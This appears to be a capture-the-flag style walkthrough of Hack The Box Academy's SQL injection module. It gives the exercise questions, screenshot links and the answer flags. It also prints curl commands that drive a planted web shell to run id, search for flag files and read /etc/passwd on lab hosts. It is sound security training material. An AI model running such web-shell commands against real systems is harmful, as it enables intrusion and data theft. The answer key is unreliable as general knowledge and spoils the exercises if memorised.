 # [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33)

## Exercise - Database Enumeration

### Questions

#### Question #01

**Question**

What is the password hash for `newuser` stored in the `users` table in the `ilfreight` database?

![Firefox - SQLi Attempt 1](./assets/screenshots/sql_injection_fundamentals_database_enumeration_firefox_sqli_attempt_1.png)

![Firefox - SQLi Attempt 2](./assets/screenshots/sql_injection_fundamentals_database_enumeration_firefox_sqli_attempt_2.png)

![Burp Suite - SQLi Attempt 3](./assets/screenshots/sql_injection_fundamentals_database_enumeration_burpsuite_sqli_attempt_3.png)

![Burp Suite - SQLi Attempt 4](./assets/screenshots/sql_injection_fundamentals_database_enumeration_burpsuite_sqli_attempt_4.png)

![Burp Suite - SQLi Attempt 5](./assets/screenshots/sql_injection_fundamentals_database_enumeration_burpsuite_sqli_attempt_5.png)

![Burp Suite - SQLi Attempt 6](./assets/screenshots/sql_injection_fundamentals_database_enumeration_burpsuite_sqli_attempt_6.png)

![Burp Suite - SQLi Attempt 7](./assets/screenshots/sql_injection_fundamentals_database_enumeration_burpsuite_sqli_attempt_7.png)

![Burp Suite - SQLi Attempt 8](./assets/screenshots/sql_injection_fundamentals_database_enumeration_burpsuite_sqli_attempt_8.png)

![Burp Suite - SQLi Attempt 9](./assets/screenshots/sql_injection_fundamentals_database_enumeration_burpsuite_sqli_attempt_9.png)

**Answer**

```
9da2c9bcdf39d8610954e0e11ea8f45f
```

## Exercise - Reading Files

### Questions

#### Question #01

**Question**

We see in the above PHP code that `$conn` is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

![Burp Suite - SQLi Attempt 1](./assets/screenshots/sql_injection_fundamentals_reading_files_burpsuite_sqli_attempt_1.png)

![Burp Suite - SQLi Attempt 2](./assets/screenshots/sql_injection_fundamentals_reading_files_burpsuite_sqli_attempt_2.png)

![Burp Suite - SQLi Attempt 3](./assets/screenshots/sql_injection_fundamentals_reading_files_burpsuite_sqli_attempt_3.png)

**Answer**

```
dB_pAssw0rd_iS_flag!
```

## Exercise - Writing Files

### Questions

#### Question #01

**Question**

Find the flag by using a webshell.

![Burp Suite - SQLi Attempt 1](./assets/screenshots/sql_injection_fundamentals_writing_files_burpsuite_sqli_attempt_1.png)

![Burp Suite - SQLi Attempt 2](./assets/screenshots/sql_injection_fundamentals_writing_files_burpsuite_sqli_attempt_2.png)

![Burp Suite - SQLi Attempt 3](./assets/screenshots/sql_injection_fundamentals_writing_files_burpsuite_sqli_attempt_3.png)

![Burp Suite - SQLi Attempt 4](./assets/screenshots/sql_injection_fundamentals_writing_files_burpsuite_sqli_attempt_4.png)

![Burp Suite - SQLi Attempt 5](./assets/screenshots/sql_injection_fundamentals_writing_files_burpsuite_sqli_attempt_5.png)

![Burp Suite - SQLi Attempt 6](./assets/screenshots/sql_injection_fundamentals_writing_files_burpsuite_sqli_attempt_6.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.121.120:47916/websh.php?0=id

[SNIP]

uid=33(www-data) gid=33(www-data) groups=33(www-data)

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.121.120:47916/websh.php?0=find+/+-iname+flag.txt

[SNIP]

/var/www/flag.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.121.120:47916/websh.php?0=cat+/var/www/flag.txt

[SNIP]

d2b5b27ae688b6a0f1d21b7d3a0798cd
```

**Answer**

```
d2b5b27ae688b6a0f1d21b7d3a0798cd
```

---

## Skills Assessment

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

### Questions

#### Question #01

**Question**

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the `/` root directory of the file system. Submit the contents of the flag as your answer.

![Firefox - Login Page](./assets/screenshots/sql_injection_fundamentals_skills_assessment_firefox_login_page.png)

![Burp Suite - POST Login](./assets/screenshots/sql_injection_fundamentals_skills_assessment_burpsuite_post_login.png)

![Firefox - Dashboard Page](./assets/screenshots/sql_injection_fundamentals_skills_assessment_firefox_dashboard_page.png)

![Burp Suite - POST Dashboard SQLi Attempt 1](./assets/screenshots/sql_injection_fundamentals_skills_assessment_burpsuite_post_dashboard_sqli_attempt_1.png)

![Burp Suite - POST Dashboard SQLi Attempt 2](./assets/screenshots/sql_injection_fundamentals_skills_assessment_burpsuite_post_dashboard_sqli_attempt_2.png)

![Burp Suite - POST Dashboard SQLi Attempt 3](./assets/screenshots/sql_injection_fundamentals_skills_assessment_burpsuite_post_dashboard_sqli_attempt_3.png)

![Burp Suite - POST Dashboard SQLi Attempt 4](./assets/screenshots/sql_injection_fundamentals_skills_assessment_burpsuite_post_dashboard_sqli_attempt_4.png)

![Burp Suite - POST Dashboard SQLi Attempt 5](./assets/screenshots/sql_injection_fundamentals_skills_assessment_burpsuite_post_dashboard_sqli_attempt_5.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.51.3:39969/dashboard/webshell.php?0=cat+/etc/passwd

[SNIP]

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.51.3:39969/dashboard/webshell.php?0=find+/+-iname+flag*.txt

[SNIP]

/flag_cae1dadcd174.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.51.3:39969/dashboard/webshell.php?0=cat+/flag_cae1dadcd174.txt

[SNIP]

528d6d9cedc2c7aab146ef226e918396
```

**Answer**

```
528d6d9cedc2c7aab146ef226e918396
```

---
---
